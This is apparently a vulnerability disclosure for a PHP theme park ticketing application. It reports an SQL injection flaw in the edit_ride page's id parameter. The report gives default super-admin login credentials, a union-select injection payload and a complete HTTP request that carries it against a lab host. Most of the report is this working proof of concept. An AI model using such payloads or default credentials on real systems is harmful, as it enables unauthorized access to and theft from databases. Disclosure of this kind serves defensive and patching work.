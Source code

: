 # Theme Park Ticketing System v1.0 by oretnom23 has SQL injection

BUG_Author: MaskCity

Login account: admin@admin.com/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14613/theme-park-ticketing-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tpts/index.php?page=edit_ride,edit_ride.php

Vulnerability location: /tpts/index.php?page=edit_ride&id, id

dbname =tpts_db

[+] Payload: /tpts/index.php?page=edit_ride&id=-1%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /tpts/index.php?page=edit_ride&id=-1%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/182984233-f4cde321-7f35-4c12-826c-86b1b8e04c0c.png)
